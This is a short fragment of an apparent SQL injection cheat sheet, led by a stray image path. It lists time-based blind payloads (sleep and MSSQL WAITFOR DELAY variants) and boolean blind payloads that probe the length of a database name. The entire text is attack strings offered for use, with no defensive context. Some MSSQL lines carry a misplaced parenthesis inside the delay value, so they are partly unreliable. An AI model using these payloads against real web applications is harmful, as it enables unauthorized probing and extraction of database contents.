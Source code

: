 ### Time-based

```bash
test' and sleep(5)-- - (Most databases)
test' and sleep(5)# (Most databases)
test;waitfor delay '0:0:5)'-- -  (MSSQL)
1');WAITFOR DELAY '0:0:5)'-- -  (MSSQL)
test';WAITFOR DELAY '0:0:5)'-- -  (MSSQL)
1;WAITFOR DELAY '0:0:5)'-- -  (MSSQL)
```

### Boolean

Determine character length of database name:

```bash
1' and length(database())=1#
1' and length(database())=2#
1' and length(database())=3#
```